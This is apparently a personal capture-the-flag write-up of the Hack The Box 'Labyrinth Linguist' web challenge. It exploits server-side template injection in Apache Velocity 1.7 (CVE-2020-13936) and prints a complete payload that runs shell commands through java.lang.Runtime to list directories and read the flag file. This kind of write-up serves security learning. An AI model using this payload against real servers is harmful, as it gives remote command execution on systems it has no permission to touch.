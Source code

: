 # 🧠 Labyrinth Linguist
> *Hack The Box*  
> *Date Solved: 2025-05-07*  
> *Difficulty: Easy*
> *Category: Web*
---

## 🧩 Overview

This challenge involved a web application running a Java backend using Apache Velocity as its templating engine. After discovering a pom.xml file referencing Velocity version 1.7, I was to find the vulnerbaility assosciated which was related to SSTI, and I then had to find out how to exploit it.

---

## 🛠️ Tools & Techniques
- BurpSuite Decoder/Proxy/Repeater
- CVE
- Server-Side Template Injection (SSTI)

---

## 🔍 Approach

After accessing the web page through Burp Suite, I noticed that there was a text box and scanned through some of the request but didn't notice any obvious vulnerabilities. I decided to take a look at the source files instead. After discovering the pom.xml, I confirmed the server used Apache Velocity 1.7, an outdated template engine vulnerable to CVE-2020-13936. This version is vulnerable to server-side template injection (SSTI).

After doing more research on this vulnerability, I used ```(#set($a=1+1) $a)``` to check if the vulnerability worked. After making sure that worked, I went to research more about the vulnerability. After searching, I found payloads that exploits the fact that Velocity gives access to Java objects. I modified the payload a little as used the command below to do a simple ls command. Before running this payload, I made sure to run it through BurpSuite's decoder as a URL. This is because without doing so, it would break the HTML request format, but URL encoding, it allows to pass through.

ls - al
```bash
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al ../"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```

After relealizing and confirming that worked, I had to search for the flag.txt. It wasn't in the initial search, so I modified it to search different directories, and after finding it, I modified the payload to use cat ./flag.txt, ran it through the decoder, and was shown the flag.
---

## 🧠 Takeaways

- Start recon with whatever the app gives you.
    Viewing the page source led me to /css/style.css, then the repo-leak gave me pom.xml, which exposed the exact tech stack and versions. Next time I’ll always hunt for config files, Dockerfiles, and package.json/pom.xml first.
- Google is part of the toolkit.
    Most of the exploit chain came from public gists and CVE write-ups. The skill isn’t memorising payloads, but recognising when to search for them.